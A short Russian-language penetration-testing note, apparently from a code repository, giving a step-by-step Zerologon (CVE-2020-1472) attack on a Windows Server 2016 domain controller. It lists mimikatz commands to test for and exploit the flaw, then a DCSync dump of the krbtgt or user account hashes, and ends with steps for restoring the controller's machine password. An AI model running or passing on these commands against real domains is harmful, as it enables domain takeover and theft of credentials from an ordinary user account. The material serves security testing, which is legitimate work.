 Входные данные:
- server 2016;
- машина в домене с позможностью запуска ПО;
- отсутствуют средства защиты, которые нельзя отключить.

Замечанияпо атаке:
- может сломать домен-контроллер (перестал работать RDP к dc);
- достаточно прав обычного пользователя.

1. Попытка провести атаку dcsync.
lsadump::dcsync /domain:company.ru /dc:dc.company.ru /user:krbtgt /authuser:dc$ /authdomain:company.ru /authpassword:"" /authntlm
Естественно, не успех.

2. Проверка возможности эксплуатации данной уязвимости.
lsadump::zerologon /target:dc.company.ru /account:dc$

3. Экслуатация.
lsadump::zerologon /target:dc.company.ru /account:dc$ /exploit

4. Атака dcsync.
lsadump::dcsync /domain:company.ru /dc:dc.company.ru /user:<<<username>>> /authuser:dc$ /authdomain:company.ru /authpassword:"" /authntlm

5. Восстановление пароля машины штатными средствами (https://winitpro.ru/index.php/2014/09/18/vosstanovlenie-doveritelnyx-otnoshenij-bez-perevvoda-v-domen/):
	5.1. Можно проверить, что связи с dc нет, с помощью nltest /sc_verify:<имя_домена>
	5.2. Зайти от локального администратора, я включил встроенного и заходил от него (надо проверить другие варианты).
	5.3. Есть много команд и командлетов для сброса пароля, но у меня сработал только этот:
		Reset-ComputerMachinePassword -Server dc -Credential company\Adm
	5.4. В статье говорят, что перезагружаться не надо. У меня так не сработало. RDP ожил только после перезагрузки.
	5.5. Повторно проверить наличие связи с dc (см. пункт 5.1).
	
Есть скрипт restorepassword.py (https://github.com/dirkjanm/CVE-2020-1472)

